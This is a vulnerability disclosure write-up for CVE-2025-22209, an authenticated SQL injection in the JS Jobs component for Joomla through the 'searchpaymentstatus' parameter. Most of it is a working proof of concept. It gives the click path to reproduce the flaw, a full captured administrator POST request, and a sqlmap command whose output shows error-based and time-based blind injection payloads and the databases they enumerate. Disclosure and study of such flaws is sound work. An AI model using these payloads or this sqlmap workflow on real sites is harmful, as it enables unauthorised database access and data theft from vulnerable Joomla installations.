

# CVE-2025-22209: SQL injection in JS jobs component version 1.1.5 - 1.4.3 for Joomla

**CVE Link:** https://www.cve.org/CVERecord?id=CVE-2025-22209

**JS Jobs:** https://joomsky.com/js-jobs-joomla

## Introduction
A SQL injection vulnerability in the JS Jobs plugin versions 1.1.5-1.4.3 for Joomla allows authenticated attackers (administrator) to execute arbitrary SQL commands via the 'searchpaymentstatus' parameter in the Employer Payment History search feature.

## POC
To exploit this vulnerability go to 'Dashboard >> Payments >> Employer History >> Employer Payment History >> Title: test >> Employee Name: test >> Price: test >> Search' and capture the search request. Save the request to a file (req.txt) and run sqlmap through the file to exploit the vulnerable parameter (searchpaymentstatus).



**HTTP Request:**
```
POST /administrator/index.php HTTP/1.1
Host: localhost:8080
Content-Length: 209
Cache-Control: max-age=0
sec-ch-ua: "Not A(Brand";v="8", "Chromium";v="132"
sec-ch-ua-mobile: ?0
sec-ch-ua-platform: "Linux"
Accept-Language: en-GB,en;q=0.9
Origin: http://localhost:8080
Content-Type: application/x-www-form-urlencoded
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/132.0.0.0 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: navigate
Sec-Fetch-User: ?1
Sec-Fetch-Dest: document
Referer: http://localhost:8080/administrator/index.php?option=com_jsjobs&c=paymenthistory&view=paymenthistory&layout=employerpaymenthistory
Accept-Encoding: gzip, deflate, br
Cookie: osColorScheme=dark; atumSidebarState=open; jsst_collapse_admin_menu=1; 3fe7c6c5dfe0b5f6afb4c9fb2fa76e2d=68e067f4856a257ca2442db063e4bcc1; fc10f92369cf23c8bddb3e364e3c0e59=3e7941ea2adf0d5092218a8dd72872e1
Connection: keep-alive

searchtitle=test&searchempname=test&searchprice=test&searchpaymentstatus=&searchdatestart=&searchdateend=&option=com_jsjobs&c=paymenthistory&view=paymenthistory&layout=employerpaymenthistory&task=&boxchecked=0
```

**Exploit:**
```
ubuntu@host:~$ python3 sqlmap/sqlmap.py -r ~/req.txt --batch --dbs

        ___
       __H__
 ___ ___["]_____ ___ ___  {1.9.1.2#dev}
|_ -| . [,]     | .'| . |
|___|_  [.]_|_|_|__,|  _|
      |_|V...       |_|   https://sqlmap.org

---
Parameter: searchpaymentstatus (POST)
    Type: error-based
    Title: MySQL >= 5.6 error-based - Parameter replace (GTID_SUBSET)
    Payload: searchtitle=test&searchempname=test&searchprice=test&searchpaymentstatus=GTID_SUBSET(CONCAT(0x7178767a71,(SELECT (ELT(3784=3784,1))),0x7176706b71),3784)&searchdatestart=&searchdateend=&option=com_jsjobs&c=paymenthistory&view=paymenthistory&layout=employerpaymenthistory&task=&boxchecked=0

    Type: time-based blind
    Title: MySQL >= 5.0.12 time-based blind - Parameter replace (substraction)
    Payload: searchtitle=test&searchempname=test&searchprice=test&searchpaymentstatus=(SELECT 2450 FROM (SELECT(SLEEP(5)))mdKf)&searchdatestart=&searchdateend=&option=com_jsjobs&c=paymenthistory&view=paymenthistory&layout=employerpaymenthistory&task=&boxchecked=0
---

available databases [3]:
[*] information_schema
[*] joomla_db
[*] performance_schema
```
